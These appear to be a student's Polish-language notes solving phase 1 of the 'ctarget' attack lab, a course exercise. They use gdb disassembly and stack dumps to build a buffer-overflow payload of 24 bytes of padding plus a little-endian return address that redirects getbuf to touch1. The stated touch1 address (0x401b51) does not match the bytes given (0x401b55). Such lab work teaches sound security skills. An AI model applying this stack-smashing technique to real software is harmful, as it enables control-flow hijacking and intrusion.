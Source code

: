 zad 1,2,3 na ctarget

# zad 1
Byte ordering - Little Endian - LSB jako pierwszy
gdb --args ./ctarget -q

Dump of assembler code for function test:
   0x0000000000401cc2 <+0>:	sub    $0x8,%rsp
   0x0000000000401cc6 <+4>:	mov    $0x0,%eax
   0x0000000000401ccb <+9>:	callq  0x401b3b <getbuf>
   0x0000000000401cd0 <+14>:	mov    %eax,%esi
   0x0000000000401cd2 <+16>:	lea    0x16ff(%rip),%rdi        # 0x4033d8
   0x0000000000401cd9 <+23>:	mov    $0x0,%eax
   0x0000000000401cde <+28>:	callq  0x4010b0 <printf@plt>
   0x0000000000401ce3 <+33>:	add    $0x8,%rsp
   0x0000000000401ce7 <+37>:	retq   
End of assembler dump.

Dump of assembler code for function getbuf:
   0x0000000000401b3b <+0>:	sub    $0x18,%rsp		# -> 24 bajty bufer
   0x0000000000401b3f <+4>:	mov    %rsp,%rdi
   0x0000000000401b42 <+7>:	callq  0x401d8a <Gets>
   0x0000000000401b47 <+12>:	mov    $0x1,%eax
   0x0000000000401b4c <+17>:	add    $0x18,%rsp
   0x0000000000401b50 <+21>:	retq   
End of assembler dump.


Dump of assembler code for function touch1:
    <+0>:	sub    $0x8,%rsp
   0x0000000000401b55 <+4>:	movl   $0x1,0x49a1(%rip)        # 0x406500 <vlevel>
   0x0000000000401b5f <+14>:	lea    0x17ae(%rip),%rdi        # 0x403314
   0x0000000000401b66 <+21>:	callq  0x401080 <puts@plt>
   0x0000000000401b6b <+26>:	mov    $0x1,%edi
   0x0000000000401b70 <+31>:	callq  0x401e84 <validate>
   0x0000000000401b75 <+36>:	mov    $0x0,%edi
   0x0000000000401b7a <+41>:	callq  0x4011f0 <exit@plt>

Chcemy z getbufa skoczyć do touch
więc musimy nadpisać w getbuf adres powrotu do test (0x0000000000401cc2 + 14 = 0x0000000000401cd0)
przy pomocy adresu do touch1 (0x0000000000401b51)
Sprawdzę jeszcze gdzie zaczyna się napis w getbuf

Po wykonaniu Gets w getbuf (input - "test"):
>>> x/32xb $rsp
0x5560a468:	0x74	0x65	0x73	0x74	0x00	0x00	0x00	0x00
0x5560a470:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x5560a478:	0x00	0x60	0x58	0x55	0x00	0x00	0x00	0x00
0x5560a480:	0xd0	0x1c	0x40	0x00	0x00	0x00	0x00	0x00

Czyli potrzeba 24 bajty paddingu i w little endian adres touch: 
0x55	0x1b	0x40	0x00	0x00	0x00	0x00	0x00

./hex2raw < phase1.txt > phase1_r.txt
